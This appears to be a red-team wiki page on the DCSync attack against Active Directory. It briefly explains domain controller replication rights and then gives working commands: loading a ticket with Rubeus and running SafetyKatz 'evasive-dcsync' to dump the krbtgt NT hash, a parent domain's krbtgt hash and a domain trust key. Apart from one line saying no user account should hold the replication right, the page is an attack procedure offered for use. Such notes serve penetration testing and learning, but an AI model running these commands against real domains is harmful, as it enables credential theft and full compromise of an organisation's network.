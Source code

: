 # DCSync

Active Directories may have multiple domain controllers: when a change is performed on one domain controller, it is necessary that the other domain controllers be aware of the change. Therefore, there is a replication mechanism implemented to perform synchronisation of the data held by the DC.

Domain controllers have by default the right `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`. The former is usually necessary to replicate non-sensitive changes; the latter also replicates secrets. Both rights are needed to perform a `DCSync` attack.

Note that in general, no user account should be granted this right.

## With a TGT

In this example, we have a TGT for the machine account of a domain controller (obtained for instance through [unconstrained-delegation.md](unconstrained-delegation.md "mention")).

We first load the ticket in memory:

```powershell
> Rubeus.exe ptt /ticket:<base64>
```

Then use `SafetyKatz` to perform `DCSync`:

```powershell
> SafetyKatz.exe "lsadump::evasive-dcsync /user:us\krbtgt" "exit"
```

This command retrieves the NT hash of the `krbtgt` user.

If you have a ticket for a parent domain, add the correct DC to the parameters:

```powershell
> SafetyKatz.exe "lsadump::evasive-dcsync /user:parentdomain\krbtgt /domain:parentdomain.local" "exit"
```

## To get domain trust key

```powershell
> SafetyKatz.exe "lsadump::evasive-dcsync /user:us\techcorp$" "exit"
```
